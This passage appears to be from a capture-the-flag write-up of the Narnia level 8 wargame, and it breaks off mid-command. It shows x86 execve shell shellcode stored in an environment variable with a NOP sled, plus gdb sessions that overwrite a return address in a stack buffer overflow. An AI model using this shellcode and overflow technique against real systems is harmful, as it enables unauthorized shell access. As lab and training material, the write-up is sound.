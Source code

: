 >
> Let's compile it, setup our shellcode, and see what it gives us.
>
>```
root@kali:~# gcc -Wall -o getenvaddress getenvaddress.c 
getenvaddress.c: In function ‘main’:
getenvaddress.c:10:48: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
     else printf("%s found at %08x\n", argv[1], (unsigned int)ptr);
root@kali:~# export EGG=$(python -c 'print "\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
root@kali:~# ./getenvaddress EGG
EGG found at ffffe74f
>```
>
> Man...let's stop right here. I spent a long time trying to get the correct address for our environment variable only to see access denied almost everywhere I went.  It turns out that the address can bounce around depending on what process you are in.  Therefore, looking up the correct address in the bash shell does not correlate to runtime with narnia8.  However, I was turned onto a ```gdb``` trick that is pretty nice.  Let's get back to the point where we are overwritting the ```ret```.
>
>```
narnia8@melinda:/narnia$ export EGG=$(python -c 'print "\x90"*100+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
narnia8@melinda:/narnia$ gdb narnia8
(gdb) break * 0x080484a7
Breakpoint 1 at 0x80484a7
(gdb) run $(python -c 'print "A"*20+"RRRR"+"A"*12+"RRRR"')
Starting program: /games/narnia/narnia8 $(python -c 'print "A"*20+"RRRR"+"A"*12+"RRRR"')
>
Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20x $esp
0xffffd5e0:	0x08048580	0xffffd5f8	0x00000014	0xf7e55f53
0xffffd5f0:	0x00000000	0x00ca0000	0x41414141	0x41414141
0xffffd600:	0x41414141	0x41414141	0x41414141	0xffff5452
0xffffd610:	0x00000002	0xffffd6d4	0xffffd638	0x080484cd
0xffffd620:	0xffffd818	0xf7ffd000	0x080484fb	0xf7fca000
(gdb) run $(python -c 'print "A"*20+"\x18\xd8\xff\xff"+"A"*12+"RRRR"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /games/narnia/narnia8 $(python -c 'print "A"*20+"\x18\xd8\xff\xff"+"A"*12+"RRRR"')
>
Breakpoint 1, 0x080484a7 in func ()
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAARRRR���
>
Program received signal SIGSEGV, Segmentation fault.
0x52525252 in ?? ()
>```
>
> Ok, there are a few things to point out here.  First off, you may have noticed that I added a bunch of ```nop``` values to the begining of the shellcode, don't worry about it for now as we will see where that will come in handy towards the end.  Finally, we see that we have hit our segmentation fault again on an address that we control.  The trick here is to use the ```x/s *((char **)environ)``` command in ```gdb``` to return the addresses of the environment variables.  This command can be iterated as ```x/s *((char **)environ)```, ```x/s *((char **)environ+1)```, ```x/s *((char **)environ+2)```, ect.  Once we locate our variable we can substitute the address in our payload and try to get our shell once again.
>
>```
(gdb) run $(python -c 'print "A"*20+"\x18\xd8\xff\xff"+"A"*12+"RRRR"')